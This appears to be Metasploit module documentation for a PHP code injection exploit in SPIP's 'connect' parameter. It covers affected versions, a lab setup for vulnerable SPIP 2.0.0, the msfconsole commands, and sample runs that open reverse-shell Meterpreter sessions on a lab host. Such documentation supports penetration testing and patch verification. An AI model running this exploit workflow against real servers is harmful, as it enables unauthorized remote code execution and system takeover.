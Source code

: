 ## Vulnerable Application

This module exploits a PHP code injection vulnerability in SPIP.
The vulnerability exists in the `connect` parameter, allowing an unauthenticated
user to execute arbitrary commands with web user privileges.
Branches 2.0, 2.1, and 3 are affected.
Vulnerable versions are < 2.0.21, < 2.1.16, and < 3.0.3.
This module is compatible with both Unix/Linux and Windows platforms, and has been successfully tested on SPIP 2.0.11 and SPIP 2.0.20
on Apache running on Ubuntu, Fedora, and Windows Server.

## Setup

On Ubuntu 20.04, download a vulnerable instance of SPIP:

```
wget https://files.spip.net/spip/archives/SPIP-v2-0-0.zip
```

Unzip it to a specific folder:

```
mkdir spip-site 
cp SPIP-v2-0-0.zip spip-site/ 
cd spip-site/ 
unzip SPIP-v2-0-0.zip
```

Install PHP 5.6 and the necessary extensions:

1. Add the PPA for PHP 5.6:

```
sudo add-apt-repository ppa:ondrej/php
sudo apt-get update
```

2. Install PHP 5.6 with SQLite extensions:

```
sudo apt-get install php5.6 php5.6-sqlite php5.6-sqlite3
```

3. Enable the required extensions in the PHP configuration file:

Open the PHP INI file for CLI:

```
sudo nano /etc/php/5.6/cli/php.ini
```

Add or uncomment the following lines:

```
extension=sqlite3.so
extension=pdo_sqlite.so
```

Serve the application (while in the newly created spip-site directory):

```
php5.6 -S 127.0.0.1:8000
```

Navigate to the following URL, select `sqlite` for the database, and complete the installation:

```
http://127.0.0.1:8000/ecrire/
```

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/multi/http/spip_connect_exec`
3. Do: `set RHOSTS [IP]`
4. Do: `set LHOST [IP]`
5. Do: `exploit`

## Options

No options

## Targets

### 0 (PHP In-Memory)

This uses an in-memory PHP payload to execute code.

### 1 (Unix/Linux Command Shell)

This executes a Unix or Linux command.

### 2 (Windows Command Shell)

This executes a Windows command.

## Scenarios

### SPIP 2.0.0 - Linux target - PHP In-Memory

```
msf exploit(multi/http/spip_connect_exec) > run http://192.168.1.36:8000/

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 2.0.0
[+] The target appears to be vulnerable.
[*] 192.168.1.36:8000 - Attempting to exploit...
[*] Sending stage (39927 bytes) to 192.168.1.36
[*] Meterpreter session 1 opened (192.168.1.36:4444 -> 192.168.1.36:47020) at 2024-08-22 19:19:00 +0200

meterpreter > sysinfo 
Computer    : linux
OS          : Linux linux 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64
Meterpreter : php/linux
meterpreter > 
```

### SPIP 2.0.0 - Unix/Linux Command Shell

```
msf exploit(multi/http/spip_connect_exec) > run http://192.168.1.36:8000/

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 2.0.0
[+] The target appears to be vulnerable.
[*] 192.168.1.36:8000 - Attempting to exploit...
[*] Sending stage (3045380 bytes) to 192.168.1.36
[*] Meterpreter session 2 opened (192.168.1.36:4444 -> 192.168.1.36:32794) at 2024-08-22 19:20:41 +0200

meterpreter > sysinfo 
Computer     : 192.168.1.36
OS           : LinuxMint 21.3 (Linux 5.15.0-113-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### SPIP 2.0.0 - Windows Command Shell

```
Somehow, I was unable to obtain a remote code execution (RCE) on my lab environment using the Windows Command Shell target. 
However, based on the exploit's design and its success on other platforms, it is expected to work. 
The issue might be specific to my lab setup.
```

